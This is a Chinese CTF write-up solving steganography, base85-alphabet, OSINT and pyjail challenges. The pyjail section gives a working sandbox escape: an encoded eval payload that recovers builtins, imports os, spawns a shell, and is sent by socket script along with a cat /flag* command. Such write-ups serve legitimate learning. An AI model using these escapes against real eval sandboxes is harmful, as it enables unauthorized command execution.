



</div>

输入密码 `lujiabanglusanyanglu` 进入下一关

#### 第三关

一个月薪喵跳舞的gif，感觉一卡一卡的。


>小故事提醒：有些话，不在纸上，在停留的片刻之间

直觉是用帧和帧的时长间隔来传递信息，于是用在线网站 **[ezgif.com](https://ezgif.com/)** 切开每一帧：



观察发现所有间隔的时间都在2到11，且总数是偶数个。推测是在映射16进制。让ai写个简单脚本提取时间间隔，每8位转化成ASCII码得到密钥：

`key:sjekdi2939dhh5juiihhw3v`

```python
from PIL import Image
HEXCH = "23456789AB"          # 下标 = cs - 2

im = Image.open("传讯符.gif")
cs = [im.seek(f) or im.info["duration"] // 10 for f in range(im.n_frames)]
hx = "".join(HEXCH[c - 2] for c in cs)     # 54 位
print(bytes.fromhex(hx))                    
"""
6B 65 79 3A 73 6A 65 6B 64 69 32 39 33 39 64 68 68 35 6A 75 69 69 68 68 77 33 76
 k  e  y  :  s  j  e  k  d  i  2  9  3  9  d  h  h  5  j  u  i  i  h  h  w  3  v
"""

```
输入密钥，成功打开压缩包拿到flag：

`flag{ImNotAnAI-didj5b3nshgdkwienc}`


# ( ,•͈ᴗ-)ᓂ- - +<♡ (pyjail)

将附件和靶机发给workbuddy，不到3分钟写出exp梭出flag：**[（workbuddy对话链接）](https://workbuddy.link/p/AiBr7Xol3wZ1p1SOjuZ4SZ?ext2=copy_link)**

现在让我们自己学习一遍（鄙人不识python，如有疏漏请多指教）**[(点击查看师徒语录)](https://chat.deepseek.com/share/fje64f1wejuj2dn5d2)**

#### 题目代码理解

先手搓注释理解一下附件jail.py：

```python
ALLOWED = set("(),+<acehlrv") 
# 这里规定了我们只能输入这些字符。可拼成的有价值语法有eval、chr、all
MAX_LENGTH = 32500 
# 输入长度上限是32500字符

def main():
    print("( ,•͈ᴗ⁃͈)ᓂ- - +<[PYJAIL,GO!]")
    expr = input(">>> ")
    if len(expr) > MAX_LENGTH or any(c not in ALLOWED for c in expr): 
# 只有输入的字符在白名单里且长度合规才存储到expr变量里
        print("Rejected")
        return

    # 清空 builtins，只给 eval / chr / all （和上面的字符白名单是对应的）
    safe_globals = {
        "__builtins__": {}, 
        # 这里只是换成了空字典，并没有“删除”掉builtins模块。形象比喻，书没消失,只是按目录查不到了。后续仍然可以使用.__self__找回
        "eval": eval, 
        "chr": chr,
        # chr可将输入的数字按照ASCII转码为字符
        "all": all,
        # all可以判断“是否全为真”并且输出布尔值，可以帮助chr来拼接字符串
        # 【“字符串”：函数的名字】 可以将用户输入的字符串与函数名绑定，输入eval就执行eval，不然builtins已经被清空会报错
    }

    eval(expr, safe_globals)
    # 将用户的输入理解为代码，且模块仅限于上面的3个
if __name__ == "__main__":
    main()
# 约定俗成的写法，使得自己可以直接运行，被别人import时不自动跑，只作为库。


```
#### 大致思路和原理：

先确定目标payload：

`eval("all.__self__.__import__('os').system('sh')")`

`all.__self__`是从all模块出发，通过它的self属性找到了完整的builtins模块，从而再用`__import__('os')`获得了import函数，并调用了os模块（Python 和操作系统之间的接口），最后可以执行shell命令拿到flag。

此时如何拼出这串payload呢？需使用all和chr使出组合技：

all判断是否全为真，输出0或1，加起来得到数字，再给chr来转码成字符，如下：

```python

all(())        # 空元组，无假元素 True  → 1
all(((),))     # False → 0
# 很多括号，可以解读一下：
"""
元组是"一串有序的值",用小括号包起来,值之间用逗号隔开，常见表示：
() 空的元组
(2333,) 含有2333这个值的元组
(1, 2，3) 含有1，2，3这几个元素的元组
而(2026)不是元组，就是2026这个值

python规定“空的东西都算假”
all(())  all括住的是一个空元组（元素数量为0，True）
all(((),)) all括住的是 含有一个空元组的元组（元素数量为1，且是假元素，False）


```
#### EXP解读

```python
import socket, time

 P = "all.__self__.__import__('os').system('sh')"
 payload = "eval(" + "+".join("chr(" + "+".join(["all(())"] * ord(c)) + ")" for c in P) + ")"

# 为了增加可读性，不妨拆成几行写：
# parts = ["chr(" + "+".join(["all(())"] * ord(c)) + ")" for c in P]
# payload = "eval(" + "+".join(parts) + ")"

"""
大致流程：
一，for c in P ：把目标payload的每一个字符依次赋值给c
二，ord(c)求出该字符的ASCII码
三，["all(())"] * ord(c) 列表乘法，得到一个长列表
四，"+".join(...) 将列表每个元素相加即得到ASCII码的数值
五，chr将该数值转化成字符
"""

s = socket.create_connection(("127.0.0.1", 62370))
s.recv(4096)                                    
s.sendall(payload.encode() + b"\n")             
time.sleep(.3)                                  
s.sendall(b"echo; cat /flag* 2>/dev/null\n")    
time.sleep(.5)
#基本的连接靶机以及美观化处理
print(s.recv(4096).decode(errors="replace").split(">>>")[-1].strip())
#打印纯净的flag


```
#### *如果没有all函数
此时首先需要将找回builtins模块的路径变为`eval.__self__`，然后需要改变制造1的路径。可以使用

`T = "(()<((),))" （空元组数量为0小于1）`。

负面影响是表达式将会变得很长，于是可以采取二进制左移位快速得到2的幂，再加起来即可。


# gift
#### [一阶段] 摩斯 + mod 4
网页打开是一个炫酷的界面，有一首~~何意味~~意味深长的英文诗歌。

```
"Where iron wakes the sleeping in the dark,
A breath of blue consumes what blood has left.
The dying light inscribes its watermark
On walls that time has of their secrets reft.

Eight carbons bear the architecture whole,
Count hydrogen by breath, by weight, by name.
The lightest speaks first — let the sequence toll
In order of the burden, not the flame.

Eighty-five mirrors hang in altered rows,
Each face displaced by elemental law.
The message hides in what the spectrum shows:
Read not the light, but what the light foresaw.

  The channel waits beyond the glowing wall.
  The heavy lead the light. The small precede the tall."


```

点击下载按钮得到了一个密文文本。

```
# Luminol Chemiluminescence Spectrometer v2.3（网站名字）
$ Peak wavelength: 425nm | Integration time: 0.8s | Gain: 14x(鲁米诺试剂的性质，应该是干扰信息)

-7<6AC1XeP6BPeV1\WPo885o$3[
```
这一串密文中出现了`\`和`[` 这是base 85的特征。并且诗歌第三节开头也隐喻了base85：

`Eighty-five(85)mirrors hang in altered rows`

按F12查找页面元素，发现了提示“mod 4”和摩斯密码



摩斯密码解码得到`YUANZIXUSHUHCNO`（原子序数HCNO，即1678）
（其实眼睛尖的话可以喵见页面最下方有一闪一闪的东西)



本题自带的提示是`何移位`和`alphabet 字母表`,于是思考要对编码表做一些操作：
  
#### [二阶段] 劲爆base85换表

一开始尝试1678模4得到2，拿着2去对base85的字符表做偏移，但得到的始终是乱码。在这里卡了好一会，最后出题人提示说取模是对每个数字分别取，即1 6 7 8 模4 得到的是1 2 3 0

可以输入四位数字密钥的编码中，常见的有希尔密码。然而解码如同惨叫或aaa批发，况且也不符合字母表移位的思路



再次~~拷打~~请教出题人，并让dsh穷举编码方式，**[对话记录]()**，终于找到了正确的位移方式，总结如下：

正常数字顺序是0123，而这里变成1230，启发我们把base85的字符表按照4个字符为一个组分组（最后多出来一个u不动），然后每组 4 个字符循环左移一位，得到新的字符表再来解码，如下所示：

```
  原先编码表（标准!-u)
!"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqrstu

  先分组：
组0:  ! " # $      ← 第 0..3 个
组1:  % & ' (      ← 第 4..7 个
 ...
组20: ] ^ _ `      ← 第 80..83 个
余数: u            ←  84（85 不能被 4 整除，单出来一个放着不动）

  再组内左移：
(c₀,c₁,c₂,c₃) → (c₁,c₂,c₃,c₀)
比如! " # $ 变成 " # $ !

  得到新的编码表：
"#$!&'(%*+,)./0-23416785:;<9>?@=BCDAFGHEJKLINOPMRSTQVWXUZ[\Y^_`]bcdafghejklinopmrstqu


                                                                                         
                                                                                                                                                               （出题人这招太狠了）
```
终于解出了明文：

`/stage2/?key=CB5ED2F7`



将其附加在网页url后即可找到flag(uuid)



**回忆*

_当时鬼脑过于跳脱，瞅见诗末尾有一句`The heavy lead the light. The small precede the tall.`还以为指的是密文要倒序，给自己卡了半天。回头看原来是对编码表做移位处理（晕乎乎）_


# 八王之卵

>提示：羊皮卷原图需要先找到对应的商品，进而找到整个批次的产品，羊皮卷就在其中。羊皮卷真的就只是一张卡通形象的羊皮卷，上面什么都没画；如果你找到了右下角有文字的羊皮卷，很遗憾那并不是我所许愿的。题目描述中的问题顺序可能比较重要，找到几个问题的答案后或许就能先拼出大致的故事线了。建议使用可识图的ai+可搜索的ai，搭配浏览器一起食用。羊皮卷最后落在一个以"k"开头的收藏站，收藏站的某一页住着蓝精灵一家。但只找到羊皮卷明显是不够的，问卷只有半小时，真的来得及找到所有问题的答案吗？

>flag格式：flag{羊皮卷原图的md5值}

#### 酷酷寻找羊皮卷

附件是一个文本文件，打开后发现了JFIF字样和后续的乱码，说明是一个jpg文件。将文件后缀由.txt改为.jpg打开：



好抽象）很显然需要进一步处理。拖入010 editor发现了50 4B 03 04文件头，利用binwalk分离





得到了蓝精灵系列的奇趣蛋图片，初步搜索可知型号为 Kinder Surprise Maxi 100g (SMURFS) 


看来就是要搜索这个奇趣蛋的相关信息。选择了workbuddy里有多模态的MiniMax模型进行了搜查 **[（点击查看对话记录）](https://workbuddy.link/p/3NDjekKR2onGCB4UmWZbt8?ext2=copy_link)** 并没有花费太长时间就搜索到了一个 **[蓝精灵收藏品网站](https://bluebuddies.com/Smurfs_Kinder_Surprise_Maxi_Smurfs-7.htm)** ，并在第九张图片看到了羊皮卷。



下载图片获得md5值，提交flag时却显示不正确。询问出题人后得知这并不是原图，还需要继续寻找（当时hint还没上（悲

同时扔给了minimax和dsh，结果居然是大肥鱼先找出来了，确实是 **[某国外小众网站](https://kinders.arnapou.net/serie/997-le-village-des-schtroumpfs)**





成功获得md5值：`542f3503e559dd39161df6d9f64483bc`不过在交flag之前，下面这六个问题尚且没有解决：

#### 苦苦寻觅批次号
```
1.产品的批次号是？
2.产品被召回的原因是？
3.批次号的编码规则是?
4.归属大系列代码是？
5.EAN是多少？
6.【彩蛋】meme大致讲了什么？（非必答）
```
将这5个问题抛给dsh，没过多久就有了结果。于是提交flag:`flag{542f3503e559dd39161df6d9f64483bc}`，显示正确，进入质询问卷页面，然后傻眼了。第一题就出问题，没一个选项符合。



狡猾地截屏，同时喂给minimax和dsh当选择题做。对于后四题，二者态度相当肯定且答案一致。但依旧是第一题出问题，二者分别选了A和D。

<div class="figures w-70">





</div>

_*MISC果真是ai防线，此时只能靠人的综合判断力,以及ai没有的"直觉"来推进了!_

姑且暂定后4个问题，将目光聚焦在第一题批次号上。让ai列出它用到的所有费列罗官方网站、卫生组织发文、沙门氏菌调查报告以及权威的新闻报道。逐一查看后，筛选出以下关键网站：

1. <https://www.iam.gov.mo/foodsafety/file?p=foodsafetyinfo/imgnews/637849521356230.pdf>

2. <https://arabiandaily.com/omans-food-safety-and-quality-warns-on-kinder-surprise-maxi-product/>

3. <https://www.dvidshub.net/news/417924/courtesy-translation-voluntary-precautionary-recall-selected-products-kinder-germany>

4. <https://moit.gov.vn/upload/2005517/fck/files/Danh_sach_san_pham_6739a.pdf>

网站1沾点边，列出了Kinder Surprise Maxi 100g（不一定是蓝精灵系列）最佳食用日期是 2022.08.23到2022.09.13

